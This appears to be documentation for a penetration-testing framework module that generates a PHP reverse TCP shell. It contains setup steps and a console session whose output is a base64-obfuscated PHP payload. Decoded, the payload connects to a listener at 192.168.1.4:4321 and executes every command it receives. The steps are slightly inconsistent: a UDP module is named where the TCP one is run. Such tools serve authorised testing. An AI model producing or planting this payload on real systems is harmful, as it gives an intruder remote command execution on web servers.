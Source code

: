 ## Description

Module generates payload that creates interactive tcp reverse shell by using php. 

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/php/reverse_udp`
  3. Do: `set lhost 192.168.1.4`
  3. Do: `set lport 4321`
  4. Do: `run`
  5. Module generates php tcp reverse shell payload

## Scenarios

```
rsf > use payloads/php/reverse_tcp
rsf (PHP Reverse TCP) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (PHP Reverse TCP) > set lport 4321
[+] lport => 4321
rsf (PHP Reverse TCP) > run
[*] Running module...
[*] Generating payload
eval(base64_decode('JHM9ZnNvY2tvcGVuKCJ0Y3A6Ly8xOTIuMTY4LjEuNCIsNDMyMSk7d2hpbGUoIWZlb2YoJHMpKXtleGVjKGZnZXRzKCRzKSwkbyk7JG89aW1wbG9kZSgiXG4iLCRvKTskby49IlxuIjtmcHV0cygkcywkbyk7fQ=='));
```
